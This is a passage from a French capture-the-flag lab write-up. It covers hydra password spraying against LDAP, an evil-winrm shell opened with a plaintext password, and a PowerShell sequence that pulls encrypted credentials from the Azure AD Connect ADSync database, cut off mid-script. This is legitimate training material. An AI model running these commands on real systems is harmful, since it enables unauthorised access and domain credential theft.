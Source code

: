 `hydra -s 3268 -L users.txt -P pwd.txt 10.10.10.172 ldap3 -V`

```
[3268][ldap3] host: 10.10.10.172   login: SABatchJobs   password: SABatchJobs
```

Récupération du compte `SABatchJobs\SABatchJobs`

## WinRM

La connexion via WinRM est possible en utilisant le compte `mhope`

`evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'`

```
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents>
*Evil-WinRM* PS C:\Users\mhope\Desktop> cat user.txt
```

L'utilisateur `mhope` appartient au groupe `Azure Admins` - Vous pouvez aussi utiliser `whoami /all`

```
*Evil-WinRM* PS C:\Users\mhope\Desktop> net user mhope
User name                    mhope
Full Name                    Mike Hope
[...]
Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
```

Après quelques recherches sur des élévations de priviléges avec un compte `Azure Admins` on tombe sur cet article :

- https://blog.xpnsec.com/azuread-connect-for-redteam/
- https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

On utilise le script powershell du 1er lien 

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> $client = new-object System.Data.SqlClient.SqlConnection
*Evil-WinRM* PS C:\Users\mhope\Documents> $PASS='4n0therD4y@n0th3r$'
*Evil-WinRM* PS C:\Users\mhope\Documents> $client.Connectionstring= "Server=LocalHost;Database=ADSync;Trusted_Connection=True;uid=mhope;pwd=$PASS;"
*Evil-WinRM* PS C:\Users\mhope\Documents> $client.Open()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd = $client.CreateCommand()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader = $cmd.ExecuteReader()
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Read() | Out-Null
*Evil-WinRM* PS C:\Users\mhope\Documents> $key_id = $reader.GetInt32(0)
*Evil-WinRM* PS C:\Users\mhope\Documents> $instance_id = $reader.GetGuid(1)
*Evil-WinRM* PS C:\Users\mhope\Documents> $entropy = $reader.GetGuid(2)
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Close()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd = $client.CreateCommand()
*Evil-WinRM* PS C:\Users\mhope\Documents> $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader = $cmd.ExecuteReader()
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Read() | Out-Null
*Evil-WinRM* PS C:\Users\mhope\Documents> $config = $reader.GetString(0)
*Evil-WinRM* PS C:\Users\mhope\Documents> $crypted = $reader.GetString(1)
*Evil-WinRM* PS C:\Users\mhope\Documents> $reader.Close()
*Evil-WinRM* PS C:\Users\mhope\Documents> add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
*Evil-WinRM* PS C:\Users\mhope\Documents> $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
*Evil-WinRM* PS C:\Users\mhope\Documents> $km.LoadKeySet($entropy, $instance_id, $key_id)
```